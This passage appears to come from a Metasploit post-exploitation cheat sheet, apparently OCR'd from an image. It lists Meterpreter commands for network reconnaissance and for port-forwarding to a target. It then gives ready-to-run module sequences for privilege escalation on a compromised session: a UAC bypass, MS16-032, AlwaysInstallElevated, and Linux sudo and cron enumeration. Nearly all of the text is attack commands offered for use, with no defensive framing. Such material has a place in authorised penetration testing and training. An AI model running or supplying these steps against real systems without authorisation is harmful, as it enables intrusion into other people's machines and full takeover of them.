 ### Network Information
```meterpreter
# Network interfaces
ipconfig

# Network routes
route

# ARP table
arp

# Port forwarding
portfwd add -l 3389 -p 3389 -r TARGET_IP
```

## Privilege Escalation

### Local Exploit Suggester
```meterpreter
# Background current session
background

# Use the suggester module
use post/multi/recon/local_exploit_suggester
set SESSION [session_id]
run
```

### Common Windows Escalation Exploits
```msf
# Bypass UAC
use exploit/windows/local/bypassuac
set SESSION [id]
run

# MS16-032 (Secondary Logon)
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set SESSION [id]
run

# AlwaysInstallElevated
use exploit/windows/local/always_install_elevated
set SESSION [id]
run
```

### Linux Privilege Escalation
```msf
# Check for sudo tokens
use multi/recon/sudo_checker
set SESSION [id]
run

# Check for writable cron jobs
use post/linux/gather/enum_system
set SESSION [id]
run
```
